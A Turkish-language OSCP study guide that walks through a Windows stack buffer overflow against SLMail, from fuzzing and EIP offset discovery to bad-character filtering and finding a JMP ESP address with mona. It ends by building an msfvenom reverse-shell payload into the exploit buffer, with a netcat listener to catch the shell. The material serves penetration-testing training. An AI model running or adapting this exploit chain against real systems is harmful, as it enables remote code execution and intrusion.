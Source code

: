 # BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create 
ile dosya lokasyonu alınır ve aşağıdaki komut çalıştırılır. Not: 2700 koda göre değişecek.
/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<konyalananPattern>'
ya da
buffer = cmd + '<konyalananPattern>' + end
```

- Exploit kodu çalıştırılır ve **EIP'deki** deger alınır

Kali:
```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. **EIP BBBB olmadıysa işlem tekrar yapılır.**

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump

![Follow Dump ESP](pictures/pic1.png)

Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.

![Shell code Boşluk](pictures/pic2.png)

## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.

![Bad Characters](pictures/pic3.png)

- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.

![Mona modules](picture/pic4.png)

```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.

![executable module list](pictures/pic5.png)

** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.

![Find Jmp Esp](pictures/pic6.png)

JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.
